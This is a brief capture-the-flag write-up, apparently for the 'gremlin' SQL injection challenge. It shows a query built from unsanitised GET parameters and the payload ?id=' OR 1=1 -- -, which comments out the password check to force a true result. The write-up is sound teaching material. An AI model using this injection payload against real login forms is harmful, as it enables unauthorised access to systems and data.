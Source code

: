 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
tags: [SQLi]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/18cc31d8-0f98-466a-84f6-3d68bf23ab5f)

We are provided with the SQL query:

```sql
SELECT id FROM prob_gremlin WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In order to make the result of this query `True`, we can provide the following URI parameter:

```
?id=' OR 1=1 -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_gremlin WHERE id='' OR 1=1 -- -' AND pw=''

## Queried part:
SELECT id FROM prob_gremlin WHERE id='' OR 1=1

## Commented part:
AND pw=''
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/002d0b4e-53d5-41f0-a173-50f3058c5302)
